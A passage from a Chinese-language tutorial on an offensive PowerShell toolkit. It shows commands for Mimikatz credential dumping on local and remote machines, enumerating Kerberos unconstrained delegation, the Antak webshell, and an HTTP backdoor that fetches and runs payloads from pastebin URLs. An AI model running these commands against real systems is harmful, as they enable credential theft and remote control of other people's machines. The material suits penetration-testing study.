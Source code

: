 执行方式：



```
Invoke-Mimikatz -DumpCerts //Dump出本机的凭证信息
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2") //Dump出远程两台计算机的凭证信息
Invoke-Mimikatz -Command "privilege::debug exit" -ComputerName "computer1" //在远程一台机器上运行Mimikatz并执行"privilege::debug exit"
```

**1.域相关脚本**

Get-Unconstrained

查找域内开启了Kerberos Unconstrained Delegation的机器。 

执行方式：



```
PS &gt; Get-Unconstrained //返回开启的计算机名
PS &gt; Get-Unconstrained -Details  //返回更详细的信息
```

关于”通过Kerberos Unconstrained Delegation获取到域管理员”： 

[http://www.freebuf.com/articles/terminal/98530.html](http://www.freebuf.com/articles/terminal/98530.html)

**2.Antak Webshell**

Antak

一个ASPX的Webshell，通过这个Webshell可以编码、执行脚本，上传、下载文件。 

[![](https://p3.ssl.qhimg.com/t012e1da54c6c4e3697.png)](https://p3.ssl.qhimg.com/t012e1da54c6c4e3697.png)

执行方式：



```
上传Webshell后把它当成一个正常的Powershell执行窗口来使用
上传和下载文件，只需要填写好对应路径点击上传、下载按钮即可
```

关于Antak Webshell的更多介绍，请参考： 

[http://www.labofapenetrationtester.com/2014/06/introducing-antak.html](http://www.labofapenetrationtester.com/2014/06/introducing-antak.html)

**3.后门**

HTTP-Backdoor

HTTP-Backdoor可以帮助我们在目标机器上下载和执行Powershell脚本 

执行方式：

```
PS &gt; HTTP-Backdoor -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -MagicString start123 -StopString stopthis
```
